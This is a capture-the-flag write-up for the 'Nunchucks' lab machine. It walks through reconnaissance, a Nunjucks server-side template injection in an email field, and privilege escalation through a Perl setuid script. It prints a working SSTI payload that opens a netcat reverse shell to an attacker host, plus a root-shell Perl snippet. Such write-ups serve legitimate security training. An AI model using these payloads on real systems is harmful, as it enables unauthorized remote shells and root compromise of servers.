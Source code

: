 # Nunchucks Writeup
### Key Words: Server Side Template Injection(SSIF), Perl Paylaod 
First of of we will do a nmap on target machine. We find some open ports like 22 (ssh), 80 (http), 443 (https). After that we will run gobuster on the domain.

In the results we will find a subdomain:

```
store.nunchucks.htb
```

This is a static page which is allows us to enter a email only.

There is the possibility of Server Side Template Injection(SSTI) here. 

<aside>
💡 Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.
Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. This allows attackers to inject arbitrary template directives in order to manipulate the template engine, often enabling them to take complete control of the server. As the name suggests, server-side template injection payloads are delivered and evaluated server-side, potentially making them much more dangerous than a typical client-side template injection.

  
</aside>

There are many template injection like ade, Handlebars, JsRender, PugJs and NUNJUCKS.

Wait a minute what is our machine name “Nunchucks”, now we got our ans so we will use NUNJUCKS injection here. 

We tried out an email like **{{9*9}}@devil.com**

In result I get **81@devil.com** that ensured that there is a SSIF.

Now what is our next approach?

Yes, We intercept the request in burp suite and then we will upload a reverse shell payload in the email parameter and try to connect a shell with the machine.

```
Payload: {{range.constructor("\return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo/tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc #ip #port >/tmp/f')\")()}}
```

Now we got a shell, after stabilizing the shell we will go inside ‘david’ folder and got our **user.txt** flag.

Here we saw a perl file and we can the access of this file. Now we know that this machine is running perl so we make a payload.

I reused the backup script, but with all of the code except the header stripped off and I changed the system command for executing reverse shell.
```perl
#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/bash"
```

After running this we will payload we can see that now we have the root privileges and we are root now.

Now we simply so to /root folder and get the root.txt flag.

Hope you like this writeup, if you like it please show some love by follow me on:

GitHub: [https://github.com/mvaibhavm09](https://github.com/mvaibhavm09)

LinkedIn: [https://linkedin.com/in/mvaibhavm09](https://linkedin.com/in/mvaibhavm09)

Twitter:  [https://twitter.com/mvaibhavm09](https://twitter.com/mvaibhavm09) 

Happy Hacking :)
